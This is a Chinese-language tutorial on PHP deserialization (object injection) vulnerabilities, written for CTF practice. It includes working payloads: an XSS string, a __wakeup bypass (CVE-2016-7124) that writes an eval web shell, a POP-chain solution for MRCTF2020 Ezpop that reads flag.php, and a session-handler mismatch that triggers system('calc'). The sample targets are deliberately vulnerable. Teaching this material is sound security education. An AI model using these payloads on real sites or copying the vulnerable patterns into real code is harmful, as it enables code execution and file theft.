

前言 php反序列化漏洞又叫php对象注入漏洞，是web安全中一个常见的漏洞，也是CTF常见的考点，所以就稍微整理总结了一下
序列化和反序列化
序列化是将对象的状态信息转换为可以存储或传输的形式的过程，而反序列化就是还原这个过程。就好像搬家需要把一些家具拆成零件搬到其他地方再组装回来一样。
相关函数
反序列化的应用：
序列化 先举一个简单的例子
1 2 3 4 5 6 7 8 <?php class Test public $a ="this_is_a" ; } $test=new Test(); echo serialize($test);?>
最终输出结果
1 2 3 4 5 O:4 :"Test" :1 :{s:1 :"a" ;s:9 :"this_is_a" ;} 对象类型:对象长度:"类名" :类属性个数:{类型:长度:"值" ;......} O:4 :"Test" :1 其中O表示对象,4 表示对象名的长度，"test" 是对象的名称，1 表示对象属性(变量)有1 个 s:1 :"a" ;s:9 :"this_is_a" 其中s表示字符串，1 表示属性长度，"a" 表示属性名称，9 表示属性值长度，"this_is_a" 表示属性值
1 2 3 4 5 6 a - array b - boolean d - double i - integer o - common object r - reference s - string C - custom object O - class N - null R - pointer reference U - unicode string
访问修饰符
public(公有)
private(私有)
protected(保护)
当目标被private修饰，序列化结果为%00类名%00属性名
举个例子
1 2 3 4 5 6 7 8 9 10 <?php class Test public $a ="public_a" ; private $b="private_b" ; protected $c="protected_c" ; } $test=new Test(); echo serialize($test);?>
输出结果
1 2 3 4 5 O:4 :"Test" :3 :{s:1 :"a" ;s:8 :"public_a" ;s:7 :"Testb" ;s:9 :"private_b" ;s:4 :"*c" ;s:11 :"protected_c" ;} 属性b被private 修饰，其属性名为Testb,因为左右添加了%00 ，导致长度为7 属性c被protected 修饰，其属性名为*c,因为添加了%00 *%00 ，导致长度为4 ps: %00 为不可见字符，但仍然占一个长度
反序列化 反序列化是序列化的逆过程，把字符串还原成一个对象
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php class Test public $a ="public_a" ; private $b="private_b" ; protected $c="protected_c" ; } $test=new Test(); $t= serialize($test); $un_t=unserialize($t); print_r($un_t); ?>
其输出结果为
1 Test Object ( [a] => public_a [b:private ] => private_b [c:protected ] => protected_c )
反序列漏洞 既然是注入类漏洞，那本质就是在用户可控的情况下输入一些恶意的字符串,改变程序执行的流程或操作，导致代码执行、非法读取\写入文件等。在参数可控的情况下，传入精心构造好的payload给unserialize解析时，可以达到篡改对象的属性甚至调用函数来进行攻击系统的目的。
魔术方法 PHP 将所有以 __(两个下划线)开头的类方法保留为魔术方法，它会在特定的情况下被调用。而大部分反序列化漏洞都需要利用或绕过魔术方法。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 __construct 当一个对象创建时被调用， __destruct 当一个对象销毁时被调用， __toString 当一个对象被当作一个字符串被调用。 __wakeup() 使用unserialize时触发 __sleep() 使用serialize时触发 __destruct() 对象被销毁时触发 __call() 在对象上下文中调用不可访问的方法时触发 __callStatic() 在静态上下文中调用不可访问的方法时触发 __get() 用于从不可访问的属性读取数据 __set() 用于将数据写入不可访问的属性 __isset() 在不可访问的属性上调用isset ()或empty ()触发 __unset() 在不可访问的属性上使用unset ()时触发 __toString() 把类当作字符串使用时触发,返回值需要为字符串 __invoke() 当脚本尝试将对象调用为函数时触发
其中重点关注这几个
__construct（）：当对象创建（new）时会自动调用
__destruct（）：当对象被销毁时会自动调用
__wakeup（）：unserialize() 执行时会检查是否存在一个 __wakeup() 方法。 如果存在，则会先调用 __wakeup方法
__toString()：当一个对象被当作一个字符串使用
__sleep()：对象被序列化之前触发，返回需要被序列化存储的成员属性，删除不必要的属性。
对象注入 最理想的状态是漏洞直接出现在魔法函数中，只需要特定条件就可以利用
1 2 3 4 5 6 7 8 9 10 <?php class Test public $t= "test" ; function __destruct () echo $this ->t; } } $a=$_GET['test' ]; $a_un=unserialize($a); ?>
因为反序列化的时候并没有过滤，导致可以控制$t的值，就可以进行XSS攻击
1 2 3 4 5 6 7 8 9 <?php class Test public $t="<script>alert(/xss/);</script>" ; } $t=new Test(); echo serialize($t);?>

绕过__wakeup() 这实际上是CVE-2016-7124漏洞。在反序列化时，如果表示对象属性个数的值大于真实的属性个数时就会跳过__wakeup( )的执行。
PHP5 < 5.6.25
PHP7 < 7.0.10
举个例子
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php class Test public $text= "test" ; function __wakeup () $this ->text="no" ; } function __destruct () $f=fopen('shell.php' , 'w' ); fputs($f,$this ->text); fclose($f); } } $a=$_GET['text' ]; $a_un=unserialize($a); ?>
因为 __wakeup函数是在调用unserialize时触发，所以shell.php的内容只能是no，需要绕过 __wakeup才能写入shell
1 2 3 4 5 6 7 8 9 10 11 12 <?php class Test public $text='<?php eval($_GET[cmd]) ?>' ; } $t=new Test(); echo serialize($t);?> 当对象属性个数大于真实属性就可以绕过 __wakeup函数 所以只要1 替换成2 即可 O:4 :"Test" :1 :{s:4 :"text" ;s:25 :"<?php eval($_GET[cmd]) ?>" ;} O:4 :"Test" :2 :{s:4 :"text" ;s:25 :"<?php eval($_GET[cmd]) ?>" ;}
POP链
面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作
一般的序列化攻击都在PHP魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来
以[MRCTF2020]Ezpop 为例
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 Welcome to index.php <?php class Modifier protected $var; public function append ($value) include ($value); } public function __invoke () $this ->append($this ->var); } } class Show public $source; public $str; public function __construct ($file='index.php' ) $this ->source = $file; echo 'Welcome to ' .$this ->source."<br>" ; } public function __toString () return $this ->str->source; } public function __wakeup () if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i" , $this ->source)) { echo "hacker" ; $this ->source = "index.php" ; } } } class Test public $p; public function __construct () $this ->p = array (); } public function __get ($key) $function = $this ->p; return $function(); } } if (isset ($_GET['pop' ])){ @unserialize($_GET['pop' ]); } else { $a=new Show; highlight_file(__FILE__ ); }
Modifier类中存在文件包含漏洞，可以用php伪协议读取，需要构造一个pop链修改$value
pop链: Show类 -> __wakeup -> __toString -> Test类 -> __get -> Modifier类 -> __invoke
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <?php class Modifier protected $var='php://filter/read=convert.base64-encode/resource=flag.php' ; } class Show public $source; public $str; public function __construct ($file) $this ->source = $file; } } class Test public $p; } $a=new Show('a' ); $a->str=new Test(); $a->str->p=new Modifier(); $b=new Show($a); echo serialize($b);?>
session反序列化漏洞 PHP中的session是以文件的形式保存到硬盘中，其存储的文件名格式为 sess_sessionid，其内容为session序列化之后的结果
先了解一下session在php中的一些配置：
session.save_path 设置session的存储路径
session.save_handler 设定用户自定义存储函数
session.auto_start 指定会话模块是否在请求开始时启动一个会话，默认为0不启动
session.serialize_handler 定义用来序列化/反序列化的处理器名字。默认使用php
而在php中有三种序列化的处理机制：
处理器
对应的存储格式
php_binary
键名的长度对应的ASCII字符+键名+经过的serialize（）函数序列化处理的值
php
键名+竖线+经过的serialize（）函数序列处理的值
php_serialize(php>5.5.4)
经过serialize()函数处理过的值，会将键名和值当作一个数组序列化
可以看到三种处理器对应的存储格式并不是一致的，简单测试一下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 session.serialize_handler用来定义序列化/反序列化的处理器，当需要用到其他处理器的时候，可以用ini_set('session.serialize_handler' , '处理器' ); <?php ini_set('session.serialize_handler' , 'php_binary' ); session_start(); $_SESSION["test" ]="test" ; php_binary存储格式： tests:4 :"test" ; ini_set('session.serialize_handler' , 'php' ); session_start(); $_SESSION["test" ]="test" ; php存储格式： test|s:4 :"test" ; ini_set('session.serialize_handler' , 'php_serialize' ); session_start(); $_SESSION["test" ]="test" ; php_serialize存储格式： a:1 :{s:4 :"test" ;s:4 :"test" ;} ?>
漏洞起因
举个例子，test.php用php_serialize处理器来利用session (注意：php_serialize php版本必须在5.5.4以上)
1 2 3 4 5 <?php ini_set('session.serialize_handler' , 'php_serialize' ); session_start(); $_SESSION["name" ]=$_GET["a" ]; ?>
test2.php用php处理器来利用session
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php ini_set('session.serialize_handler' , 'php' ); session_start(); class Test public $cmd; function __construct () $this ->cmd = 'no' ; } function __destruct () eval ($this ->cmd); } } ?>
因为采用了两个不同的序列化处理器来处理session，导致存储结构不一致，产生漏洞
新建一个use.php用来构造payload
1 2 3 4 5 6 7 8 <?php class Test public $cmd='system("calc");' ; } $t=new Test(); echo serialize($t);?>
use.php的输出结果
1 O:4 :"Test" :1 :{s:3 :"cmd" ;s:15 :"system(" calc");" ;}
在use.php序列化的结果添加一个 | 并传入test.php
此时再次访问test2.php就会弹出一个计算器，说明系统执行了system(“calc”)
因为test2.php会访问我们伪造的数据，而PHP处理器的格式是以键名+竖线+序列化的值组成的，使用时会把竖线前半部分的当成键名，而后半部分进行反序列化，通过伪造数据来让PHP处理器误为是要反序列化的值，最终执行eval(“calc”)